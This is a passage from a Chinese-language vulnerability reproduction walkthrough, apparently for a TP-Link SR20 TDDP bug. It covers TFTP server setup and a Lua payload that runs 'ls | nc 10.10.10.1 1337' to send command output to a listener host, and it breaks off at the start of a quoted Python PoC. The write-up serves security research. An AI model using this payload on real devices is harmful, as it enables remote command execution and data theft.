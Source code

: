 ##漏洞复现
###搭建TFTP Server
在宿主机安装atftpd搭建TFTP服务

	$ sudo apt install atftpd
编辑`/etc/default/atftpd`文件，`USE_INETD=true`改为`USE_INETD=false`，`/srv/tftp`改为`/tftpboot`

修改完后运行以下指令：

	$ mkdir /tftpboot
	$ chmod 777 /tftpboot
	$ sudo systemctl start atftpd # 启动 atftpd
执行命令`sudo systemctl status atftpd`查看atftpd服务状态，为`running`即成功
![](https://raw.githubusercontent.com/TTXbai/Security/master/SR20_tddp_bug/pic/atftp_status.png "pic7")

如果提示`atftpd:can't bind port :69/udp`无法绑定端口，可以执行`sudo systemctl stop inetutils-inetd.service` 停用`inetutils-inetd`服务后，再执行`sudo systemctl restart atftpd`重新启动atftpd即可正常运行atftpd

在atftp的根目录`/tftpboot`下写入payload文件

payload文件内容为：

	function config_test(config)
		os.execute("ls | nc 10.10.10.1 1337")
	end
![](https://raw.githubusercontent.com/TTXbai/Security/master/SR20_tddp_bug/pic/cat_payload.png "pic8")

从参考链接1中得到poc为：

	#!/usr/bin/python3

	# Copyright 2019 Google LLC.
	# SPDX-License-Identifier: Apache-2.0
	